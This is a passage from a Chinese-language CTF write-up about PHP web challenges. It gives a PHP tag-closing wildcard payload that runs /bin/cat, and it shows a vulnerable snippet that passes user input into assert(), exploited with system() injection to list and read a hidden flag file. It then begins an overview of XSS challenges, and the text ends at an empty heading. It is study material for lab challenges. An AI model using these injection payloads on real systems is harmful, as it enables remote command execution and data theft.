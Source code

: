 因为过滤了变量符号，没法通过上面那种方法来执行了。但是，可以通过闭合PHP标记来执行，也就是：?><?=/???/??? /*?>（/bin/cat /*）。

所以本题的payload为：?code=?><?=/???/??? /*?>

具体解法可以参照此篇文章的前两道题目：https://www.jianshu.com/p/ecc2414ec110

**6.命令执行漏洞**：

assert()函数引起的命令执行:

assert函数的参数为字符串时，会将字符串当做PHP命令来执行。

例如：assert(‘phpinfo()’)相当于执行<?php phpinfo() ?>

以一道题目为例：？？

本题目中题目文件夹下放置了一个隐藏的flag文件。

```
<?php
error_reporting(0);
if (isset($_GET['file'])) {
    if($_GET['file'] === "flag"){
        highlight_file("flag.php");
    }else{
        $page = $_GET['file'];
    }
} else {
    $page = "./flag.php";
}

assert("file_exists('$page')");
?> 
```

解法：

构造闭合 file_exists()函数，并使assert()执行恶意代码。

Linux命令ls -a可用于查看该目录下所有文件，包括隐藏文件。

payload：

1- ?file=123’) or system(‘ls -a’);#
2-?file=123’) or system(‘cat .ffll44gg’);#

# 第6大类-XSS题目（跨站脚本攻击）

### （1）总结：

这类题目会涉及到三种XSS类型，具体类型要根据题目来判断。一般都是向后台发送一个带有XSS Payload的文本，在返回的Cookie中含有flag。解法是在XSS Payload。
这类题目一般都会带有过滤和各种限制，需要了解一些常用的绕过方法。

**解题方法**：XSS归根结底还是JavaScript，JavaScript的威力有多大，XSS的威力就有多大。要知道一些常用的XSS Payload，还要把三类XSS的原理弄明白。做题时需要用到XSS平台，网上有公用的，也可以自己在VPS上搭一个。

### （2）具体题型包括：
